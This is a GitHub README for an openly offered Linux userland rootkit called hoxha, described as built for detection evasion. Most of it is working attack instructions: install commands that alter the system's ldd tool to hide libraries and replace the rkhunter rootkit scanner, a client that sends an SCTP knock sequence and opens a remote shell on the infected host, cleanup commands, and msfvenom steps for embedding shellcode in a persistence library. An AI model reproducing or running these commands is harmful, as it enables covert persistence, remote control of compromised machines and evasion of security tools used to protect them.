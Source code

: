 # hoxha
A userland rootkit for x86_64 Linux that was meant to be everything <a href="https://github.com/mephistolist/tito">Tito</a> was not. As Enver Hoxha was Tito's next door neighbor and completely opposed in ideology, there was no more a fitting name. Hoxha was also known for being very paranoid, so a lot more detection-evasion was used.   

<p align="center">
  <img src="https://upload.wikimedia.org/wikipedia/commons/f/fe/Enver_Hoxha_%28portret%29.jpg" width="50%" height="50%" />
</p>

You can download this like so:
```
git clone https://github.com/mephistolist/hoxha.git
```
If you are not on a Debian based system, you will want to run this to change to the name of your python binary:
```
sed -i 's/python3/python/g' hoxha/persistance/libexec.c; sed -i 's/python3/python/g' hoxha/persistance/libhide.c  
```
Considering SCTP is installed and loaded in the kernel, you can install the rootkit this:
```
cd hoxha && sudo make install clean && cd persistance && [ -f ./patchelf ] && chmod +x ./patchelf && sudo make install clean && sudo sed -i 's/try_trace \"$RTLD\" \"$file\" || result=1/try_trace \"$RTLD\" \"$file\" | grep -vE \"libc.so.4|libc.so.5\" || result=1/g' /usr/bin/ldd && [ -f $(which rkhunter) ]  && sudo cp ./rkhunter $(which rkhunter) 2>/dev/null;
```
The client can be used with just the destionation ip address where this rootkit is installed:
```
# ./enver 127.0.0.1
[+] SCTP knock sequence sent.
[*] Connecting to SCTP shell at 127.0.0.1:5000...
[+] Connected. Type commands (type 'exit' to quit):
sctp-shell>
```
As SCTP ports are hard to close, I would suggest updating this with the paths to where you have the 'hoxha' folder and running this when exiting the shell:
```
/home/user/hoxha/persistance/patchelf --remove-needed /lib/x86_64-linux-gnu/libc.so.5 $(which killall) && killall -9 hoxha && systemctl restart cron && /home/user/hoxha/persistance/patchelf --add-needed /lib/x86_64-linux-gnu/libc.so.5 $(which killall)
```
This will ensure that only one port is left listening for future connections.

If you wish to edit or just build the shell from source you can do so by just typing 'make' the root directory. Using 'make install' will give a binary at /usr/bin/hoxha. You can then run this with msfvenom:
```
msfvenom -p linux/x64/exec CMD=/usr/bin/hoxha -f raw -o shellcode.bin -b "\x00\x0a\x0d"
```
Then you can base64 the raw data like so:
```
cat shellcode.bin | base64
```
Add that base64 encoded string to the hoxha/persistance/libexec.c file and re-run the Makefile in the persistance folder to apply your changes.

Currently tested for Debian Trixie with cron running and in your $PATH. Other distos and setups may work or require manual intervention. 
